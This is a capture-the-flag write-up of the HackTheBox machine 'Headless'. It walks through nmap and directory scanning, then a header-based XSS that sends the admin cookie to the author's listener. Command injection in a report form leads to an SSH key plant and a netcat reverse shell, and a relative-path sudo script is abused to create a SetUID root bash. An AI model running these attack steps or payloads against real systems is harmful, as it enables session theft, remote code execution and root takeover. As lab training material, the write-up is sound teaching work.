


# HTB: Headless

[ctf](/tags#ctf ) [hackthebox](/tags#hackthebox ) [htb-headless](/tags#htb-
headless ) [nmap](/tags#nmap ) [debian](/tags#debian ) [flask](/tags#flask )
[python](/tags#python ) [burp](/tags#burp ) [burp-repeater](/tags#burp-
repeater ) [xss](/tags#xss ) [feroxbuster](/tags#feroxbuster )
[ffuf](/tags#ffuf ) [filter](/tags#filter ) [cookies](/tags#cookies )
[command-injection](/tags#command-injection ) [bash](/tags#bash )
[cyberchef](/tags#cyberchef )  
  
Jul 20, 2024

HTB: Headless

Headless is a nice introduction to cross site scripting, command injection,
and understanding Linux and Bash. I’ll start with a simple website with a
contact form. When I put any HTML tags into the message, there’s an alert
saying that my request headers have been forwarded for analysis. I’ll embed a
XSS payload into request headers and steal a cookie from the admin. As an
admin user, I get access to the dashboard, where a simple form has command
injection. To escalate, I’ll abuse a system check script that tries to run
another script with a relative path. In Beyond Root, I’ll look at
understanding and attacking the cookie used by the site, and some odd status
codes I noticed during the solution.

## Box Info

Name | [Headless](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fheadless)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fheadless)  
---|---  
Release Date | [23 Mar 2024](https://twitter.com/hackthebox_eu/status/1770857984274436253)  
Retire Date | 20 Jul 2024  
OS | Linux   
Base Points | Easy [20]  
Rated Difficulty |   
Radar Graph |   
 | 00:10:44[ jaxafed](https://app.hackthebox.com/users/661155)  
  
 | 00:13:42[ myDonut](https://app.hackthebox.com/users/29383)  
  
Creator | [ dvir1](https://app.hackthebox.com/users/1422414)  
  
  
## Recon

### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (5000):

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.8
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-07-11 13:26 EDT
    Nmap scan report for 10.10.11.8
    Host is up (0.085s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    5000/tcp open  upnp
    
    Nmap done: 1 IP address (1 host up) scanned in 6.89 seconds
    oxdf@hacky$ nmap -p 22,5000 -sCV 10.10.11.8
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-07-11 13:28 EDT
    Nmap scan report for 10.10.11.8
    Host is up (0.085s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
    5000/tcp open  upnp?
    | fingerprint-strings:
    |   GetRequest:
    |     HTTP/1.1 200 OK
    |     Server: Werkzeug/2.2.2 Python/3.11.2
    |     Date: Thu, 11 Jul 2024 17:28:41 GMT
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 2799
    |     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
    |     Connection: close
    |     <!DOCTYPE html>
    |     <html lang="en">
    |     <head>
    |     <meta charset="UTF-8">
    |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
    |     <title>Under Construction</title>
    |     <style>
    |     body {
    |     font-family: 'Arial', sans-serif;
    |     background-color: #f7f7f7;
    |     margin: 0;
    |     padding: 0;
    |     display: flex;
    |     justify-content: center;
    |     align-items: center;
    |     height: 100vh;
    |     .container {
    |     text-align: center;
    |     background-color: #fff;
    |     border-radius: 10px;
    |     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
    |   RTSPRequest:
    |     <!DOCTYPE HTML>
    |     <html lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <title>Error response</title>
    |     </head>
    |     <body>
    |     <h1>Error response</h1>
    |     
Error code: 400

    |     
Message: Bad request version ('RTSP/1.0').

    |     
Error code explanation: 400 - Bad request syntax or unsupported method.

    |     </body>
    |_    </html>
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5000-TCP:V=7.80%I=7%D=7/11%Time=66901648%P=x86_64-pc-linux-gnu%r(Ge
    SF:tRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20
    SF:Python/3\.11\.2\r\nDate:\x20Thu,\x2011\x20Jul\x202024\x2017:28:41\x20GM
    SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
    SF:02799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Zfs;
    SF:\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20
    SF:lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20
    SF:\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,
    SF:\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construction
    SF:</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20body
    SF:\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20
    SF:'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
    SF:20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20displ
    SF:ay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justify-c
    SF:ontent:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ali
    SF:gn-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20h
    SF:eight:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\x20
    SF:\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
    SF:x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20
    SF:\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x2
    SF:0\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x20\
    SF:x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x200,\
    SF:x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYPE\x
    SF:20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x2
    SF:0\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\
    SF:x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\
    SF:x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20respons
    SF:e</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20
Error\x20code:\x20400
\n\
    SF:x20\x20\x20\x20\x20\x20\x20\x20
Message:\x20Bad\x20request\x20version
    SF:\x20\('RTSP/1\.0'\)\.
\n\x20\x20\x20\x20\x20\x20\x20\x20
Error\x20
    SF:code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x20u
    SF:nsupported\x20method\.
\n\x20\x20\x20\x20</body>\n</html>\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 98.87 seconds
    

Based on the [OpenSSH](https://packages.debian.org/search?keywords=openssh-
server) version, the host is likely running Debian 12 bookworm.

The webserver on 5000 is running Python / Werkzeug.

### Website - TCP 80

#### Site

The site is down:

The link leads to `/support` which offers a contact form:

Clicking submit doesn’t show any feedback. I’ll look in Burp (where all my HTB
traffic is [proxied](https://www.youtube.com/watch?v=iTm33Miymdg)), and see
that the POST request is sent and the response is a 200 OK:

If I try some HTML injection by putting something in the message between `<b>`
tags, such as “<b>Hello?</b>”, I get an error message:

The content is not displayed, but all the HTTP request headers seem to be.

#### Tech Stack

The HTTP response headers show it’s a Werkzeug / Python server:

    
    
    HTTP/1.1 200 OK
    Server: Werkzeug/2.2.2 Python/3.11.2
    Date: Thu, 11 Jul 2024 17:34:59 GMT
    Content-Type: text/html; charset=utf-8
    Content-Length: 2799
    Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
    Connection: close
    

I’ll note that it sets the `is_admin` cookie. There’s more I can look at with
this cookie, but it’s not important for solving Headless, so I’ll do things
like decode the cookie, modify the cookie, and look at the source that handles
it in Beyond Root.

The 404 page matches the default Flask 404 page:

At this point I can say the site is likely running on Python Flask.

#### Directory Brute Force

I’ll run `feroxbuster` against the site to check for any other pages /
endpoints:

    
    
    oxdf@hacky$ feroxbuster -u http://10.10.11.8:5000
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.10.3
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.11.8:5000
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.10.3
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    200      GET       96l      259w     2799c http://10.10.11.8:5000/
    200      GET       93l      179w     2363c http://10.10.11.8:5000/support
    500      GET        5l       37w      265c http://10.10.11.8:5000/dashboard
    [####################] - 2m     30000/30000   0s      found:3       errors:0
    [####################] - 2m     30000/30000   291/s   http://10.10.11.8:5000/
    

I’ve already explored `/support`. `/dashboard` is returning 500 (which is a
internal server error). Visiting it shows an unauthorized page (and
interestingly, an HTTP 401, not 500, which I’ll explain in Beyond Root):

## Shell as dvir

### Evaluate Filter

#### Single Character Fuzz

I’ll try checking for any single character that might cause issues on
submitting with the following `ffuf` options:

  * `-u http://10.10.11.8:5000/support` \- URL to fuzz
  * `-d 'fname=0xdf&lname=0xdf&email=0xdf@headless.htb&phone=9999999999&message=FUZZ'` \- Data to send, with the FUZZed item being the message
  * `-w /opt/SecLists/Fuzzing/alphanum-case-extra.txt` \- Wordlist with a bunch of single characters per line
  * `-H 'Content-Type: application/x-www-form-urlencoded'` \- Need to include this or the server returns 500
  * `-mr 'Your IP address has been flagged'` \- Only show results that include that line.

Nothing triggers it:

    
    
    oxdf@hacky$ ffuf -u http://10.10.11.8:5000/support -d 'fname=0xdf&lname=0xdf&email=0xdf@headless.htb&phone=9999999999&message=FUZZ' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -H 'Content-Type: application/x-www-form-urlencoded' -mr 'Your IP address has been flagged'
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : POST
     :: URL              : http://10.10.11.8:5000/support
     :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/alphanum-case-extra.txt
     :: Header           : Content-Type: application/x-www-form-urlencoded
     :: Data             : fname=0xdf&lname=0xdf&email=0xdf@headless.htb&phone=9999999999&message=FUZZ
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Regexp: Your IP address has been flagged
    ________________________________________________
    
    :: Progress: [95/95] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
    

#### Repeater

I’ll take the request that did trigger the block over to Burp Repeater:

I’ll URL decode the `message` and it still triggers:

This doesn’t teach me anything new, but makes it easier to play with.

One good technique is to delete characters one at a time until it no longer
triggers an issue. In this case, on removing the first `>`, it stops
triggering the alert:

`>` on it’s own doesn’t trigger it. My guess is that it’s looking for HTML
tags, so it needs both `<` and `>`:

It also triggers on SSTI attempts (both `{{` and `}}`):

### Access Dashboard

#### POC

It’s going to be difficult to get XSS or SSTI past this block. But it does say
not only that it’s detected but also that it’s being sent for high priority
review. If the data sent for review looks like what was displayed back, can I
XSS in that?

Any header I add is included:

If I add a `
    

This will add a new `` tag to the page with a source URL on my server
that includes the user’s cookie. For this to work the cookie has to not be
configured as `HttpOnly`, which Firefox dev tools shows is False:

I’ll start a Python webserver using `python -m http.server 80`. I have given
my `python` binary `cap_net_bind_service` so it can listen on low ports
without root. I’d need to run `sudo` without that. Also, my `python` is
Python3.

    
    
    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

Now in repeater I’ll send the payload:

With the Response in Render, it actually triggers and hits my webserver:

    
    
    10.10.14.6 - - [11/Jul/2024 14:56:48] "GET /?c= HTTP/1.1" 200 -
    

It doesn’t have a cookie, so that’s blank. Less than a minute later, there are
more connections from Headless:

    
    
    10.10.11.8 - - [11/Jul/2024 14:57:30] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
    10.10.11.8 - - [11/Jul/2024 14:57:33] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
    10.10.11.8 - - [11/Jul/2024 14:57:35] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
    

#### Access Dashboard

I’ll go into the Firefox dev tools, Storage tab, and replace my cookie with
this value:

Now on visiting `/dashboard`, a different page loads:

### Command Injection RCE

#### Dashboard Enumeration

Clicking “Generate Report” shows a message under the form:

The HTTP request that is sent when clicked is:

    
    
    POST /dashboard HTTP/1.1
    Host: 10.10.11.8:5000
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 18
    Origin: http://10.10.11.8:5000
    Connection: close
    Referer: http://10.10.11.8:5000/dashboard
    Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
    
    date=2023-09-15
    

#### Command Injection POC

In the browser, I can’t change the fields to anything but a date. But in Burp,
I can mess with the requests. I’ll send that request to Repeater.

If I think about what the server is doing, it is likely taking the date and
looking up information about what was happening for the report on that date.
If it can do that from Python, that’s good for it. But if it needs to run some
system commands, it is possible that it’s taking my input and building the
command from it, and then calling something like `subprocess.run` or
`os.system` with that string. To check for that, I’ll try adding `; id` to the
end of the date:

It worked! The output of the `id` command is displayed in the response.

#### Shell via SSH

I can do a quick check for a private SSH key in the dvir user’s home
directory, but there’s not one there:

I can write my own. I’ll generate a key (I like ed25519 cause they are short):

    
    
    oxdf@hacky$ ssh-keygen -t ed25519 -f key
    Generating public/private ed25519 key pair.
    Enter passphrase (empty for no passphrase): 
    Enter same passphrase again: 
    Your identification has been saved in key
    Your public key has been saved in key.pub
    The key fingerprint is:
    SHA256:PGAmS1HqWDvKz/OqV+BSn2LNxs6qlCfQRs9mXOJHVPQ oxdf@hacky
    The key's randomart image is:
    +--[ED25519 256]--+
    |    ..ooo        |
    |     +   .       |
    |  . * *   E      |
    | o XoX o         |
    |. +o%*..S        |
    | +.=+oO  .       |
    |  *o.*           |
    | . =o o          |
    |  o+==.          |
    +----[SHA256]-----+
    oxdf@hacky$ ls key*
    key  key.pub
    

I need to put the `key.pub` contents into an `authorized_keys` file:

Now I’ll connect with SSH:

    
    
    oxdf@hacky$ ssh -i key dvir@10.10.11.8
    Linux headless 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64
    ...[snip]...
    Last login: Thu Jul 11 21:15:45 2024 from 10.10.14.6
    dvir@headless:~$
    

And I can read `user.txt`:

    
    
    dvir@headless:~$ cat user.txt
    c857e232************************
    

#### Shell Via Reverse Shell

I’ll use a simple Bash reverse shell (which I cover in detail in [this
video](https://www.youtube.com/watch?v=OjkVep2EIlw)):

I have manually encoded the `&` characters to `%26` so that they aren’t
confused for the start of a new POST parameter. I’ll start `nc` listening on
port 443, and send this. It hangs. At `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.8 39124
    bash: cannot set terminal process group (1347): Inappropriate ioctl for device
    bash: no job control in this shell
    dvir@headless:~/app$ 
    

I’ll do the [standard shell
upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    dvir@headless:~/app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    dvir@headless:~/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset 
    reset: unknown terminal type unknown
    Terminal type? screen
    dvir@headless:~/app$ 
    

And grab `user.txt`:

    
    
    dvir@headless:~$ cat user.txt
    c857e232************************
    

## Shell as root

### Enumeration

#### Users / Home Directories

There’s not too much of interest in dvir’s home directory:

    
    
    dvir@headless:~$ ls -la
    total 48
    drwx------  8 dvir dvir 4096 Feb 16 23:49 .
    drwxr-xr-x  3 root root 4096 Sep  9  2023 ..
    drwxr-xr-x  3 dvir dvir 4096 Jul 11 21:22 app
    lrwxrwxrwx  1 dvir dvir    9 Feb  2 16:05 .bash_history -> /dev/null
    -rw-r--r--  1 dvir dvir  220 Sep  9  2023 .bash_logout
    -rw-r--r--  1 dvir dvir 3393 Sep 10  2023 .bashrc
    drwx------ 12 dvir dvir 4096 Sep 10  2023 .cache
    lrwxrwxrwx  1 dvir dvir    9 Feb  2 16:05 geckodriver.log -> /dev/null
    drwx------  3 dvir dvir 4096 Feb 16 23:49 .gnupg
    drwx------  4 dvir dvir 4096 Feb 16 23:49 .local
    drwx------  3 dvir dvir 4096 Sep 10  2023 .mozilla
    -rw-r--r--  1 dvir dvir  807 Sep  9  2023 .profile
    lrwxrwxrwx  1 dvir dvir    9 Feb  2 16:06 .python_history -> /dev/null
    drwx------  2 dvir dvir 4096 Jul 11 22:39 .ssh
    -rw-r-----  1 root dvir   33 Sep 10  2023 user.txt
    

The `.mozilla` folder could be interesting if it has a profile in it, but it
doesn’t:

    
    
    dvir@headless:~$ find .mozilla/
    .mozilla/
    .mozilla/firefox
    .mozilla/firefox/Crash Reports
    .mozilla/firefox/Crash Reports/InstallTime20240212204114
    .mozilla/firefox/Crash Reports/events
    .mozilla/firefox/Crash Reports/InstallTime20240115170312
    .mozilla/firefox/Crash Reports/InstallTime20230822151617
    .mozilla/firefox/Pending Pings
    

There are not other users with home directories in `/home` or shells:

    
    
    dvir@headless:/home$ ls
    dvir
    dvir@headless:/home$ grep 'sh$' /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    dvir:x:1000:1000:dvir,,,:/home/dvir:/bin/bash
    

#### sudo

`sudo -l` shows what this user can run as other users:

    
    
    dvir@headless:~$ sudo -l
    Matching Defaults entries for dvir on headless:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
    
    User dvir may run the following commands on headless:
        (ALL) NOPASSWD: /usr/bin/syscheck
    

The dvir user can run `syscheck` as any user without their password.

### syscheck

#### Metadata

`syscheck` is a Bash script:

    
    
    dvir@headless:~$ file /usr/bin/syscheck 
    /usr/bin/syscheck: Bourne-Again shell script, ASCII text executable
    

I’m curious to know if it is a real-world file, or something created for
Headless. Searching for “syscheck” returns a lot of things, but nothing
obviously that matches. I’ll get a hash of the file:

    
    
    dvir@headless:~$ md5sum /usr/bin/syscheck
    bc05df1a6d7529c5bdad5d9ab4e59af0  /usr/bin/syscheck
    

I’ll put that into the search field on VirusTotal, and it returns:

If this were a real-world utility, it surely would have made it’s way to VT by
now. That suggests it’s custom for Headless.

#### Run It

As `/usr/bin` is in my `$PATH`, I can just run it. As a regular user, it does
nothing. But as root, it has output:

    
    
    dvir@headless:~$ syscheck 
    dvir@headless:~$ sudo syscheck
    Last Kernel Modification Time: 01/02/2024 10:05
    Available disk space: 1.8G
    System load average:  0.00, 0.01, 0.00
    Database service is not running. Starting it...
    

#### Source

The script isn’t very long:

    
    
    #!/bin/bash
    
    if [ "$EUID" -ne 0 ]; then
      exit 1
    fi
    
    last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
    formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
    /usr/bin/echo "Last Kernel Modification Time: $formatted_time"
    
    disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
    /usr/bin/echo "Available disk space: $disk_space"
    
    load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
    /usr/bin/echo "System load average: $load_average"
    
    if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
      /usr/bin/echo "Database service is not running. Starting it..."
      ./initdb.sh 2>/dev/null
    else
      /usr/bin/echo "Database service is running."
    fi
    
    exit 0
    

First it checks that the running user is root, and exits if not:

    
    
    if [ "$EUID" -ne 0 ]; then
      exit 1
    fi
    

It gets the last modified time of the `vmlinuz` file in `/boot` and prints it:

    
    
    last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
    formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
    /usr/bin/echo "Last Kernel Modification Time: $formatted_time"
    

It parse the output of `df -h` and prints that:

    
    
    disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
    /usr/bin/echo "Available disk space: $disk_space"
    

It gets part of the output of `uptime` and prints that:

    
    
    load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
    /usr/bin/echo "System load average: $load_average"
    

Then it uses `pgrep` to look for anything in the process list with `initdb.sh`
in it. If it doesn’t find anything, it prints and runs `./initdb.sh`.
Otherwise it just prints:

    
    
    if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
      /usr/bin/echo "Database service is not running. Starting it..."
      ./initdb.sh 2>/dev/null
    else
      /usr/bin/echo "Database service is running."
    fi
    

Then it exits:

    
    
    exit 0
    

#### initdb.sh

It doesn’t actually matter, but I can search the disk for a file named
`initdb.sh`:

    
    
    dvir@headless:~$ find / -name 'initdb.sh' 2>/dev/null
    

It finds nothing. It could exist in a directory that dvir doesn’t have access
to.

But again, that doesn’t matter. It’s called as `./initdb.sh`, which means it
will look for that file in whatever directory the caller is in.

### Exploit

I’ll write a simple Bash script that will copy `bash` to `/tmp/0xdf`, set the
owner of that file to root, and then set it as SetUID/SetGID (which means that
it will run as the owner, not the user running it). This effectively gives me
a copy of `bash` that runs as root:

    
    
    dvir@headless:/dev/shm$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' | tee initdb.sh
    #!/bin/bash
    
    cp /bin/bash /tmp/0xdf
    chown root:root /tmp/0xdf
    chmod 6777 /tmp/0xdf
    dvir@headless:/dev/shm$ chmod +x initdb.sh
    

It’s also important to make the script executable.

I’ll run `sudo syscheck`:

    
    
    dvir@headless:/dev/shm$ sudo syscheck
    Last Kernel Modification Time: 01/02/2024 10:05
    Available disk space: 1.8G
    System load average:  0.04, 0.05, 0.01
    Database service is not running. Starting it...
    

Now `/tmp/0xdf` exists:

    
    
    dvir@headless:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1265648 Jul 11 23:16 /tmp/0xdf
    

I’ll run it with `-p` (`bash` will drop privileges without this) and get a
root shell:

    
    
    dvir@headless:/dev/shm$ /tmp/0xdf -p
    0xdf-5.2#
    

I’ll clean up the binary and get the root flag:

    
    
    0xdf-5.2# rm /tmp/0xdf 
    0xdf-5.2# cat /root/root.txt
    2694e156************************
    

## Beyond Root

### Cookie Exploration

#### Decoding

The `is_admin` cookie is made up of two base64 encoded strings with a `.`
between them:

    
    
    is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
    

My best guess is that the first is the data and the second is a signature.

    
    
    oxdf@hacky$ echo "InVzZXIi" | base64 -d
    "user"
    

The second string is URL-safe base64-encoded (the `_` character isn’t part of
the standard base64 alphabet). It decodes easily in
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64\('A-Za-z0-9-_',true,false\)To_Hexdump\(16,false,false,false\)&input=dUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz),
albeit to random garbage (which would make sense as a signature):

[_Click for full
size image_](../img/image-20240711144613685.png)

The cookie I steal is similar:

    
    
    is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
    

Decoding the first bit returns an error:

    
    
    oxdf@hacky$ echo "ImFkbWluIg" | base64 -d
    "admin"base64: invalid input
    

Base64-encoded data is supposed to be padded with zero, one, or two “=”,
depending on the length of the encoded data. In places like cookies, it’s
common to drop the padding (no data is lost). I can try with one and two “=”,
and it works with two:

    
    
    oxdf@hacky$ echo "ImFkbWluIg=" | base64 -d
    "admin"base64: invalid input
    oxdf@hacky$ echo "ImFkbWluIg==" | base64 -d
    "admin"
    

Just like with the user data, the second bunch decodes as URL-safe base64, but
to nothing interesting:

[_Click for full
size image_](../img/image-20240711162400510.png)

#### Modifying

I can try modifying parts of the cookie. If I start with the unmodified user
cookie, I get 401 UNAUTHORIZED for `/dashbard`:

If I delete a character from the end of the cookie, it crashes:

If I revert that back to ok, and replace the first part with the encoded
“admin” string, it still crashes:

It seems like it is doing some kind of verification, and throwing an unhandled
exception if the verification fails.

#### Source

The source for the application is in `/home/dvir/app/`:

    
    
    dvir@headless:~/app$ ls
    app.py  dashboard.html  hackattempt.html  hacking_reports  index.html  inspect_reports.py  report.sh  support.html
    

`app.py` does most of the work for the application. In Flask, each route is a
Python function with a `@app.route` decorator on it. For example, the web root
`/`:

    
    
    @app.route('/')
    def index():
        client_ip = request.remote_addr
        is_admin = True if client_ip in ['127.0.0.1', '::1'] else False
        token = "admin" if is_admin else "user"
        serialized_value = serializer.dumps(token)
    
        response = make_response(render_template('index.html', is_admin=token))
        response.set_cookie('is_admin', serialized_value, httponly=False)
    
        return response  
    

It uses the client IP to make a cookie, then generates a response object using
the `index.html` template (it doesn’t need to pass `is_admin=token` here),
sets the cookie in the response, and sends the response.

The only route that cares about the cookie is `/dashboard`:

    
    
    @app.route('/dashboard', methods=['GET', 'POST'])
    def admin():                       
        if serializer.loads(request.cookies.get('is_admin')) == "user":
            return abort(401)
    
        script_output = ""          
                                                        
        if request.method == 'POST':        
            date = request.form.get('date')
            if date:         
                script_output = os.popen(f'bash report.sh {date}').read()
                                                        
        return render_template('dashboard.html', script_output=script_output)
    

It gets the cookie and uses the `serializer.loads` method to decode it.
`serializer` is definted towards the top of the file:

    
    
    app.secret_key = b'PcBE2u6tBomJmDMwUbRzO18I07A'
    serializer = URLSafeSerializer(app.secret_key)
    

`URLSafeSerlializer` is imported on the second line:

    
    
    from itsdangerous import URLSafeSerializer
    

[This object](https://itsdangerous.palletsprojects.com/en/2.2.x/url_safe/)
uses a secret key to encode some data into a string (using base64), and
attaches a signature to it based on the secret key. This allows the web
application to pass information to the user, and then get that information
back from the user, knowing it hasn’t been modified (assuming the user doesn’t
have access to the secret).

I can mock this in a Python repl by creating a `serializer` with the same key:

    
    
    oxdf@hacky$ python
    Python 3.11.9 (main, Apr  6 2024, 17:59:24) [GCC 11.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> from itsdangerous import URLSafeSerializer
    >>> secret_key = b'PcBE2u6tBomJmDMwUbRzO18I07A' 
    >>> serializer = URLSafeSerializer(secret_key)
    

If I give it the cookie I get by default, it returns “user”:

    
    
    >>> serializer.loads('InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs')
    'user'
    

If I break the signature either by editing the signature (removing the last
character) or editing the data, it raises an exception:

    
    
    >>> serializer.loads('InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zf')
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/usr/local/lib/python3.11/dist-packages/itsdangerous/serializer.py", line 236, in loads
        raise _t.cast(BadSignature, last_exception)
      File "/usr/local/lib/python3.11/dist-packages/itsdangerous/serializer.py", line 232, in loads
        return self.load_payload(signer.unsign(s))
                                 ^^^^^^^^^^^^^^^^
      File "/usr/local/lib/python3.11/dist-packages/itsdangerous/signer.py", line 247, in unsign
        raise BadSignature(f"Signature {sig!r} does not match", payload=value)
    itsdangerous.exc.BadSignature: Signature b'uAlmXlTvm8vyihjNaPDWnvB_Zf' does not match
